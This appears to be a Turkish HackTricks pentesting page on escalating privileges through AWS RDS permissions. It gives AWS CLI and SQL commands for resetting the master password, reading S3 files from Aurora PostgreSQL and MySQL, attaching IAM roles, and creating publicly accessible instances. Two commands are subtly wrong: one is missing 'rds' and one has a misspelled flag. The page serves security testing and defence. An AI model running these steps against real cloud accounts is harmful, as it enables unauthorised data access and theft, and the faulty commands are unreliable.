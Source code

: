 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan **ana kullanıcının şifresini değiştirebilir** ve veritabanındaki oturumu değiştirebilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Veritabanı ile **iletişim kurabilmeniz** gerekecek (genellikle yalnızca iç ağlardan erişilebilirler).

**Olası Etki:** Veritabanlarında hassas bilgileri bulmak.

### rds-db:connect

[**belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rol IAM izinlerini kötüye kullanma

#### Postgresql (Aurora)

> [!TIP]
> **`SELECT datname FROM pg_database;`** komutunu çalıştırdığınızda **`rdsadmin`** adında bir veritabanı bulursanız, bir **AWS postgresql veritabanı** içinde olduğunuzu bilirsiniz.

Öncelikle bu veritabanının başka bir AWS hizmetine erişim için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunu, kurulu uzantılara bakarak kontrol edebilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişime sahip olduğunu** varsayabilirsiniz (diğer uzantılar **`aws_ml`** ve **`aws_lambda`** gibi).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izinleriniz varsa, **`AssociatedRoles`** alanında **kümenin herhangi bir IAM Rolü ile ilişkilendirilip ilişkilendirilmediğini** görebilirsiniz. Varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. **Rolün adı** (veya rolün **izinlerini** alabiliyorsanız) temelinde, veritabanının ne tür ek erişime sahip olduğunu **tahmin edebilirsiniz**.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahip olsaydınız, bunları S3 verilerine erişmek için de kullanabilirdiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **S3'e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz**.

#### Mysql (Aurora)

> [!TIP]
> Bir mysql içinde, **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırırsanız ve **`rdsadmin`** adında bir kullanıcı varsa, **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanasının S3 verilerine erişmeye hazır olduğunu varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz; bu genellikle AWS hizmetlerine erişim anlamına gelir.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim sağlama** veya örnekteki verileri değiştirme imkanı verebilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.\
Bazı DB'lerin, parametre gruplarında rol ARN'sinin belirtilmesi gibi ek yapılandırmalara ihtiyaç duyduğunu unutmayın.

### `rds:CreateDBInstance`

Bu izinle bir saldırgan, zaten var olan ve bir **IAM rolü** eklenmiş bir **küme içinde yeni bir örnek** oluşturabilir. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açma olanağına sahip olabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rol eklenmiş yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak **hassas verilere erişebilir** veya örnekteki verileri değiştirebilir.

> [!WARNING]
> Eklemek için rol/örnek profili ile ilgili bazı gereksinimler ( [**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) ):

> - Profil hesabınızda mevcut olmalıdır.
> - Profilin, Amazon EC2'nin üstlenme iznine sahip olduğu bir IAM rolü olmalıdır.
> - Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` ön eki ile başlamalıdır.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim** sağlama veya örnek içindeki verileri değiştirme imkanı verebilir.

> [!WARNING]
> DB örneği, bunun için bir kümenin dışında olmalıdır.
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler. 

{{#include ../../../banners/hacktricks-training.md}}
